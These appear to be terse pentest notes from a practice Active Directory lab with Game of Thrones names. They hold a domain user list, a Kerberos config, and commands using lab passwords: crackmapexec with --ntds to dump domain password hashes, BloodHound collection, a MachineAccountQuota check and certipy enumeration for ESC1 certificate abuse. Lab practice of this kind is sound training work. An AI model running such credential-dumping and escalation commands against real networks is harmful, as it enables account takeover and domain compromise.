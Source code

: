 
sql_svc
jeor.mormont
samwell.tarly
jon.snow
hodor
rickon.stark
brandon.stark
sansa.stark
robb.stark
catelyn.stark
eddard.stark
arya.stark
krbtgt
vagrant
Guest
Administrator

cme smb winterfell.north.sevenkingdoms.local -u pnightmare2 -p 'Test123456789!' --ntds

cme ldap winterfell.north.sevenkingdoms.local -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M MAQ


bloodhound-python --zip -c All -d sevenkingdoms.local -u brandon.stark@north.sevenkingdoms.local -p iseedeadpeople -dc kingslanding.sevenkingdoms.local



[libdefaults]
  default_realm = essos.local
  kdc_timesync = 1
  ccache_type = 4
  forwardable = true
  proxiable = true
  fcc-mit-ticketflags = true
[realms]
  north.sevenkingdoms.local = {
      kdc = winterfell.north.sevenkingdoms.local
      admin_server = winterfell.north.sevenkingdoms.local
  }
  sevenkingdoms.local = {
      kdc = kingslanding.sevenkingdoms.local
      admin_server = kingslanding.sevenkingdoms.local
  }
  essos.local = {
      kdc = meereen.essos.local
      admin_server = meereen.essos.local
  }



esc1

certipy find -u khal.drogo@essos.local -p 'horse' -dc-ip 192.168.3.12

